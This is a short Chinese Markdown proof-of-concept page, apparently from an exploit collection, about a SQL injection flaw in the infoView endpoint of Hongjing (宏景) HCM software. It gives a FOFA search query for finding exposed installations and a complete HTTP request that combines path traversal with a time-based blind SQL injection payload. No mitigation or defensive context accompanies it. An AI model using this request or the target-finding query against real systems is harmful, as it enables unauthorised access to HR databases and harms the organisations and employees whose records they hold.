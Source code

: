 ## 宏景HCM系统infoView处存在sql注入漏洞

## fofa
```
app="HJSOFT-HCM"
```


## poc
```
GET /templates/attestation/../../general/info/view?kind=1&a0100=1';waitfor+delay+'0:0:3'+-- HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```

![735e80af6f18b931778ed42001b7733e](../../images/6d8159a2-5884-4a1e-823a-e06705afb37e.png)
